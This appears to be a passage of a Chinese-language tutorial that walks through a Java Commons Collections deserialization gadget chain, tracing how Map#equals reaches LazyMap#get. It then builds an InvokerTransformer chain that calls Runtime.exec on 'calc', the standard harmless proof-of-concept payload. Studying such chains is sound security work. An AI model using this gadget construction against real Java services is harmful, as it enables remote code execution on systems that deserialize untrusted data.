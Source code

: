 ```java
public boolean equals(Object o) {
    if (o == this)
        return true;

    if (!(o instanceof Map))
        return false;
    Map<?,?> m = (Map<?,?>) o;
    if (m.size() != size())
        return false;

    try {
        Iterator<Entry<K,V>> i = entrySet().iterator();
        while (i.hasNext()) {
            Entry<K,V> e = i.next();
            K key = e.getKey();
            V value = e.getValue();
            if (value == null) {
                if (!(m.get(key)==null && m.containsKey(key)))
                    return false;
            } else {
                if (!value.equals(m.get(key))) 👈Look Me👋
                    return false;
            }
        }
    } // ...error catch
    return true;
}
```

比较对象需要满足如下条件才和原Map相等：

* `Map`类的实例（`o instanceof Map`）
* 大小和原Map相同（`m.size() == size()`）
* 遍历原Map的每个键值对Entry和比较对象一致

其中第三点会获取比较对象中`key`对应的`value`（`m.get(key)`），让比较对象m为`LazyMap`即可触发后半段链子。

`LazyMap`的`equals`也是调用的父类(`AbstractMapDecorator`)的`equals`

```java
// AbstractMapDecorator#equals
public boolean equals(Object object) {
    if (object == this) {
        return true;
    }
    return map.equals(object); 👈Look Me👋
}
```

这里的map就是`LazyMap.decorate`传进来的map

因此我们构造两个LazyMap，一个用于触发`HashMap#equals`，一个用于触发`Transformer#transform`

```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer((Runtime.class)),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
Transformer chain = new ChainedTransformer(transformers);
Map map1 = new HashMap();
Map map2 = new HashMap();
Map lazyMap1 = LazyMap.decorate(map1, chain);
Map lazyMap2 = LazyMap.decorate(map2, chain);
```